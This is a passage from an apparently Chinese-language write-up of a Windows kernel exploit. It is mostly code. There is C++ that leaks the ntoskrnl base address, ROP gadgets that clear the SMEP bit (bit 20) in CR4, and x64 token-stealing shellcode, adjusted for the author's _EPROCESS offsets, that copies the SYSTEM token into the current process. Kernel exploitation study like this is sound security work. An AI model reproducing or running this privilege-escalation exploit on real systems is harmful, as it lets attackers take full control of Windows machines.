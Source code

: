 ```
            MEM_RESERVE | MEM_COMMIT,
            PAGE_EXECUTE_READWRITE);
 
   //Get SYSTEM_MODULE_INFORMATION
    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation,
        pModuleInfo,
        len,
        &len);
 
    if (status != (NTSTATUS)0x0) {
        cout << "[!] NtQuerySystemInformation failed!" << endl;
        exit(1);
    }
 
    PVOID kernelImageBase = pModuleInfo->Modules[0].ImageBaseAddress;
 
    cout << "[>] ntoskrnl.exe base address: 0x" << hex << kernelImageBase << endl;
 
    return (INT64)kernelImageBase;
}

```

之后 Bypass SMEP 采用修改 CR4 寄存器，置其第 21 位为 0。据笔者环境，`CR4=00000000001506f8`，应修改为`00000000000506f8`，Gadgets 如下：

```
pop     rcx;retn        //nt!HvlEndSystemInterrupt+20
00000000000506f8        //CR4 Value
mov     cr4, rcx;retn    //nt!KeFlushCurrentTbImmediately+17

```

笔者环境中`_EPROCESS`结构与 Exp 作者略有不同，故修改 Shellcode 如下：

```
"\x54\x50\x51\x52\x53\x55\x56\x57\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57\x9C"      //PUSHAD
        "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, [gs:188h]       ; Get _ETHREAD pointer from KPCR
        "\x4C\x8B\x82\xB8\x00\x00\x00"              // mov r8, [rdx + b8h]      ; _EPROCESS (kd> u PsGetCurrentProcess)
        "\x4D\x8B\x88\xe8\x02\x00\x00"              // mov r9, [r8 + 2e8h]      ; ActiveProcessLinks list head
        "\x49\x8B\x09"                              // mov rcx, [r9]            ; Follow link to first process in list
        //find_system_proc:
        "\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; Offset from ActiveProcessLinks to UniqueProcessId
        "\x48\x83\xFA\x04"                          // cmp rdx, 4               ; Process with ID 4 is System process
        "\x74\x05"                                  // jz found_system          ; Found SYSTEM token
        "\x48\x8B\x09"                              // mov rcx, [rcx]           ; Follow _LIST_ENTRY Flink pointer
        "\xEB\xF1"                                  // jmp find_system_proc     ; Loop
        //found_system:
        "\x48\x8B\x41\x70"                          // mov rax, [rcx + 70h]     ; Offset from ActiveProcessLinks to Token
        "\x24\xF0"                                  // and al, 0f0h             ; Clear low 4 bits of _EX_FAST_REF structure
        "\x49\x89\x80\x58\x03\x00\x00"              // mov [r8 + 358h], rax     ; Copy SYSTEM token to current process's token
        "\x9D\x41\x5F\x41\x5E\x41\x5D\x41\x5C\x41\x5B\x41\x5A\x41\x59\x41\x58\x5F\x5E\x5D\x5B\x5A\x59\x58\x5C"      //POPAD
```